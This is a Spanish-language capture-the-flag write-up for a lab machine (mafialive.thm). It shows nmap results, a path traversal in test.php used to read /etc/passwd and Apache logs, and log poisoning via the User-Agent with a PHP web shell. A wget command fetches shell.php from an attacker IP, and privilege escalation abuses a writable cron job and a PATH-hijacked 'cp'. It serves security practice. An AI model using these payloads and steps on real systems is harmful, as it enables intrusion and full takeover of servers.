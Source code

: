 ```css
```PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web 

![](web.png)

Al poner el dominio, ya tenemos la primera flag.

## Fuzzing
```
/robots.txt
/test.php
```

## Path Traversal

mirando el ``/etc/passwd`` 
![](lfi.png)

para ver los logs 
```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

## User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```php
<?php system($_GET['cmd']);?>
```

![](agent.png)

Podemos ejecutar comandos mediante el parámetro ``&cmd=``
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```

![](user.png)

Cargamos una shell en php mediante wget. 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

## Shell www-data

![[Pasted image 20231020001833.png]]

## movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![[Pasted image 20231020002053.png]]

![[Pasted image 20231020002120.png]]

## Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![[Pasted image 20231020002338.png]]

![[Pasted image 20231020002346.png]]

Al ejecutarlo ya somos root.